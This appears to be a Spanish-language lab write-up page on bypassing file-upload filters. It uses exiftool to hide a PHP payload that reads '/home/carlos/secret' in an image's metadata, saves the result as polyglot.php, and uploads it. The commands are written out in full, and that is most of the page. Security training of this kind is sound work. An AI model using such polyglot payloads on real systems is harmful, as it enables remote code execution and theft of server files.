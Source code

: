 <figure><img src="../.gitbook/assets/imagen (110).png" alt=""><figcaption></figcaption></figure>

**EXIFTOOL METHOD**

```
wget https://i.pinimg.com/736x/99/f9/85/99f9858700cae99dd18ce3ccefe502ab.jpg
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ./99f9858700cae99dd18ce3ccefe502ab.jpg -o polyglot.php
python3 -m http.server 80
```

#### EJEMPLO PRÁCTICO

```r
wget https://i.pinimg.com/736x/99/f9/85/99f9858700cae99dd18ce3ccefe502ab.jpg
```

_Nos descargamos una imagen_

```r
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ./99f9858700cae99dd18ce3ccefe502ab.jpg -o polyglot.php
```

_La convertimos en una "imagen"_

<figure><img src="../.gitbook/assets/imagen (107).png" alt=""><figcaption></figcaption></figure>

_La subimos_&#x20;

<figure><img src="../.gitbook/assets/imagen (106).png" alt=""><figcaption></figcaption></figure>
